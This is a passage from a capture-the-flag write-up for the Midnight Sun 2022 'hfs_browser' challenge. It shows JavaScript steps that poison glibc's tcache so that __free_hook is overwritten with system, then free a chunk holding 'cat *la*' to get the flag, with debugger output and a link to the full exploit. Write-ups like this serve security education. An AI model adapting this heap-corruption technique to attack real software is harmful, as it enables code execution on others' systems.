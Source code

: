 
3. `chunk->fd = &__free_hook`
```javascript
free_hook = libc_base + 0x1eee48;
free_hook_str = free_hook.toString(16);

chunk[5] = parseInt(free_hook_str.substring(0, 0 + 2), 16);
chunk[4] = parseInt(free_hook_str.substring(2, 2 + 2), 16);
chunk[3] = parseInt(free_hook_str.substring(4, 4 + 2), 16);
chunk[2] = parseInt(free_hook_str.substring(6, 6 + 2), 16);
chunk[1] = parseInt(free_hook_str.substring(8, 8 + 2), 16);
chunk[0] = parseInt(free_hook_str.substring(10, 10 + 2), 16);
```
Tcache:
```
Tcachebins[idx=29, size=0x1f0] count=2  ←  Chunk(addr=0x4c9a70, size=0x1f0, flags=PREV_INUSE)  ←  Chunk(addr=0x7ffff7ddfe48, size=0x0, flags=! PREV_INUSE) 

0x7ffff7ddfe48 = &__free_hook
```

4. Allocate a chunk and write the command for `system`. `cat *la*` worked for our exploit.
```javascript
chunk2 = new Uint32Array(0x78);
chunk2[1] = 0x2a616c2a; // *la*
chunk2[0] = 0x20746163; // cat
```
Tcache:
```
Tcachebins[idx=29, size=0x1f0] count=1  ←  Chunk(addr=0x7ffff7ddfe48, size=0x0, flags=! PREV_INUSE) ...
```

5. Allocate the final chunk. `malloc` will return `&__free_hook`
```javascript
target = new Uint32Array(0x78);
target[0] = system;         // lower  32 bits of system
target[1] = system_upper;   // higher 32 bits of system
```

6. Free chunk2 containing `cat *la*`
```javascript
chunk2.midnight()
``` 

![upload-image]({{ "/assets/img/midnightQuals22/hfs_browser_flag.png" | relative_url }})

Running on the server got us the flag: `midnight{c4nt_h4v3_Us3_4ft3r_fr33s_1f_yoU_d0nt_fr33}`

# Full exploit:
[pwn.js]({{ "/assets/code/midnightQuals22/hfs_browser/pwn.js" | relative_url }})
